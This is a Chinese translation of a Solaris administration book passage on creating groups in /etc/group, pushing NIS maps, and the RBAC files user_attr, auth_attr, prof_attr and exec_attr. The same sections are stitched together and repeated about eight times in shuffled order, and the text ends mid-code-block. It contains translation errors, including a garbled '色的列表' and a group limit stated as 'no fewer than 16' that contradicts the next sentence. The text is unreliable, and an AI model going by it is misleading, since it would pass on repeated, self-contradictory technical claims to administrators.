最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 `jackson` 和 `tealc` 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 root 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```


- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 "jackson" 和 "tealc" 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（ profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 "jackson" 和 "tealc" 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（ profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：


`Device Management::Control Access to Removable Media:auths=solaris.device.*;;help=DevMgmt.html`

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的角色列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 `"jackson"` 和 `"tealc"` 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```

## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。

第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```
Device Management::Control Access to Removable Media:auths=solaris.device.*;;help=DevMgmt.html
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（ profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（*）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 "jackson" 和 "tealc" 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（ profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```


该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 `root`、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc

auths: tealc: No authorizations

# roles tealc

roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生严重的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 "jackson" 和 "tealc" 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 `root` 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```


# 第 4 章 · 保护您的用户

启动具有不同组员权限的 shell。组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（`*`）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生安全的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 `jackson` 和 `tealc` 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 `RBAC`。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 `root` 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 `root` 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```


第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 root、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```

# 理解 Solaris

## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

# 第 4 章 · 保护您的用户

组密码防止了该系统访问受限文件。虽然这在 Solaris 中已不再是一个问题，但在新组的组密码字段中放置一个星号（*）是一种惯性做法。

组密码字段之后是 GID。与 UID 一样，GID 应该是唯一的。字段列表列出了该组的用户名。

在单机系统或 NIS 系统上创建新组非常简单。如果你正在使用 NIS，请务必在 NIS 主服务器上编辑 `/etc/group` 文件，因为对客户端进行的更改可能不会被识别。假设您想创建一个名为 `operators` 的新组，该组将包含允许管理打印系统某些方面的用户。请准备好一个新的 GID，并记住以下规则：

- 诸如 `daemon`、`mail`、`sysadmin` 等项的现有 GID 留给特定的系统功能使用。重用这些 GID 之一可能会导致命令出现意想不到的行为，更糟糕的是，产生安全的安全漏洞。
- 100 以下的 GID 通常保留给系统使用，60,000 以上的 GID 也是如此。
- 在向新组添加用户时，请记住每个用户仅限于一个主组，且不少于 16 个辅助组。如果一个用户属于超过 16 个辅助组，则某些命令（`sudo` 就是其中之一）的行为可能是不可预测的，并且推送 NIS 映射的尝试可能会失败。

假设您的两个用户 "jackson" 和 "tealc" 预期将管理打印系统。在为将责任委托给他们做准备时，您想创建一个新组并将他们添加为成员。打开 `/etc/group` 并添加：

```
operators::*:150:jackson,tealc
```

如果这是 NIS 主服务器，您可以使用以下命令立即推送映射：

```bash
# cd /var/yp
# make
```


## 基于角色的访问控制 (RBAC)

Solaris 的一个新新增概念是基于角色的访问控制 (RBAC)。熟悉 `sudo` 实用程序的系统管理员应该认为 RBAC 易于使用。RBAC 的目的是将有限权限扩展到某些账户。通常在 UNIX 系统中，个人要么拥有 root 权限（以及与之相关的所有风险和权力），要么是普通、无特权的用户。相比之下，RBAC 允许委托某些特定的任务。

RBAC 使用四个文件来控制对某些操作的访问。第一个文件 `/etc/user_attr` 用于匹配用户、角色与他们的权限以及他们拥有的配置（ profiles）。`/etc/user_attr` 中的默认条目如下：

```text
# Copyright (c) 1999 by Sun Microsystems, Inc. All rights
# reserved.
#
# /etc/user_attr
#
# user attributes. see user_attr(4)
#
#pragma ident "(#)user_attr 1.2 99/07/14 SMI"
```

```
root::type=normal;auths=solaris.*,solaris.grant;profiles=All
```

此条目表示 root 用户被授予了访问所有定义配置的权限。

第二个文件 `/etc/security/auth_attr` 定义了授权列表，并对这些授权授予的权力进行了简要描述，同时提供了指向帮助文件的链接。`auth_attr` 文件很长，所以我们只取单行作为示例：

```text
solaris.device.grant::Delegate\
DeviceAdministration::help=DevGrant.html
```

第一个字段 `solaris.device.grant` 包含了几个重要信息。第一个组件 `solaris` 表示该授权适用于 Solaris 操作系统环境。第二个 `device` 意味着该角色可以对系统设备（如打印机、磁带驱动器等）操作。最后一个关键字 `grant` 赋予该角色的成员在 `solaris.device` 内部委托额外角色的能力。


第三个文件 `/etc/security/prof_attr` 用于将授权属性归类为较大的类别。这些分组属性可以分配给用户、组或其他角色。与我们上面使用的项对应的设备管理条目是：

```text
Device Management::Control Access to Removable
Media:auths=solaris.device.*;;help=DevMgmt.html
```

该文件的重要部分是 `auth` 条目。它由冒号分隔的授权属性列表组成。此示例包含了 `auth_attr` 表中的所有设备管理功能，包括 `allocate`、`config`、`grant` 和 `revoke`。

最后一个表格 `/etc/security/exec_attr` 包含了它们可以执行的色的列表，以及如果有必要，每个角色中命令将继承的有效 UID。通过这种方式，RBAC 允许管理员授予 root、`daemon` 或 `lp` 等特殊账户所拥权限的有限子集。

要查看分配给特定用户的授权和角色，请执行以下命令：

```bash
